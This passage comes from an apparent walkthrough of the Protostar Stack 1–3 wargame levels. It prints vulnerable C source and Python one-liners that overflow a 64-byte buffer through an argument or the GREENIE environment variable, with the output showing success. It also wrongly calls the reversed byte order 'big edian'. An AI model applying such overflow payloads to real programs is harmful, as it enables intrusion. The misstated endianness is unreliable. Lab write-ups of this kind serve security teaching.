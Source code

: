 ```
  }
}
```

Similarly, but done in hexadecimal, we need to write in big edian

```
$ ./stack1 `python -c 'print("A"*64 + "\x64\x63\x62\x61")'`  
you have correctly got the variable to the right value  
```

## Stack 2

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)  
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
    errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
    printf("you have correctly modified the variable\n");
  } else {
    printf("Try again, you got 0x%08x\n", modified);
  }
```

Same again, but this time it uses an environment variable which we have access to.

```
user@protostar:~$ export GREENIE=`python -c 'print("A"*64 + "\x0a\x0d\x0a\x0d")'`  
user@protostar:~$ ./stack2  
you have correctly modified the variable  
``` 

## Stack 3

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()  
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)  
{
  volatile int (*fp)();
```